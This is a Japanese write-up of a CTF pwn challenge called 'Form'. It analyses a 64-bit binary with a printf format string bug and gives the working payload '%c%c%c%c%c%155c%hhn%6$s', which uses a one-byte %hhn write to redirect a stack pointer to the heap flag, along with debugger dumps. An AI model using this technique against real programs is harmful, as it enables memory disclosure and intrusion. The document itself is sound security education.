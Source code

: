 このwriteupは[こちら](https://hackmd.io/@yqroo/ictf2023#Form) を参考にしました。

```
$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, [略], not stripped

$ pwn checksec vuln
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

ghidraで見てみると問題文通りformat stingのエラーがある。

```
void main(void)
{
  size_t length;
  long in_FS_OFFSET;
  char *format_string;
  char **fp_buf;
  FILE *fp;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fp_buf = (char **)malloc(0x20);
  format_string = (char *)malloc(0x20);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  fp = fopen("flag.txt","r");
  fgets((char *)fp_buf,0x20,fp);
  fgets(format_string,0x20,stdin);
  fp_buf = &format_string;
  length = strlen((char *)fp_buf);
  if (length < 0x18) {
    printf(format_string);
  }
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```

長さは24まで。exitで終了しているのでfini_arrayの書き換えで何回もとはいかない。またフラグはmallocで確保されているので、書き換える位置を考える必要がある。
printf実行前のスタックとレジスタは以下の通り(思いっきり答え書いちゃってた)。

```
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x007f468ae36992  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rsp   : 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rbp   : 0x007ffe711a4280  →  0x0000000000000001
$rsi   : 0x007f468af3bb23  →  0xf3da80000000000a ("\n"?)
$rdi   : 0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rip   : 0x0055da3fd742d8  →  <main+207> call 0x55da3fd740e0 <printf@plt>
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x007ffe711a4398  →  0x007ffe711a6492  →  0x53006e6c75762f2e ("./vuln"?)
$r13   : 0x0055da3fd74209  →  <main+0> endbr64
$r14   : 0x0055da3fd76d90  →  0x0055da3fd741c0  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x007f468af93040  →  0x007f468af942e0  →  0x0055da3fd73000  →   jg 0x55da3fd73047
$eflags: [zero CARRY parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───── stack ────
0x007ffe711a4260│+0x0000: 0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"       ← $rdx, $rsp
0x007ffe711a4268│+0x0008: 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
0x007ffe711a4270│+0x0010: 0x0055da3ff8e300  →  0x00000000fbad2488
0x007ffe711a4278│+0x0018: 0x890db47e39d20300

gef➤  search-pattern flag{
[+] Searching 'flag{' in memory
[+] In '[heap]'(0x55da3ff8e000-0x55da3ffaf000), permission=rw-
  0x55da3ff8e2a0 - 0x55da3ff8e2b9  →   "flag{this_is_test_flag}\n"
```

フラグのアドレスとformatを書き込んだアドレスは1byte分しか変わらない(mallocで確保したサイズが小さいので当然だけど)。つまりスタックにあるアドレス(64bitでいうと6番目の引数)下位1byteを0xa0に書き換えてやればいい。

この問題をやるまで知らなかったが、書き込める指定子は%nだけではないらしく
・%hn  2byte
・%hhn 1byte
といったものもある。これを利用して0xa0に書き込み、%6$sでフラグを表示させる。


## Tips
ここで自分用におさらいとして書くが、format_stringは32bitと64bitは表示される順番が異なる(正確に言うと呼び出し規約に依るかもしれない)。
例えば%x.%x.%x.%x.%xの場合
```
・32bit(cdecl)    各引数に対応したスタックの中身が表示される
・64bit(fastcall) 各引数に対応したレジスタが表示された後、スタックの中身
```

